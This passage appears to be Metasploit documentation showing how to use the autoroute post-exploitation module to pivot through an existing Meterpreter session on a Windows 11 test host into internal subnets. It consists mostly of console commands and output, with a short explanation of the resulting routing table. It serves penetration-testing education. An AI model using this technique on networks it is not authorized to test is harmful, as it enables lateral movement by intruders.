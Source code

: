 ```msf
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, auto
                                       add, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 169.254.0.0
SUBNET => 169.254.0.0
msf6 post(multi/manage/autoroute) > set NETMASK /16
NETMASK => /16
msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, auto
                                       add, print, delete, default)
   NETMASK  /16              no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  1                yes       The session to run this module on
   SUBNET   169.254.0.0      no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against WIN11-TEST
[*] Searching for subnets to autoroute.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.19.176.0/255.255.240.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) >
```
If we now use Meterpreter's `route` command we can see that we have two route table entries within Metasploit's routing table, that are tied to Session 1, aka the session on the Windows 11 machine. This means anytime we want to contact a machine within one of the networks specified, we will go through Session 1 and use that to connect to the targets.

```msf
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   169.254.0.0        255.255.0.0        Session 1
   172.19.176.0       255.255.240.0      Session 1

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) >
```
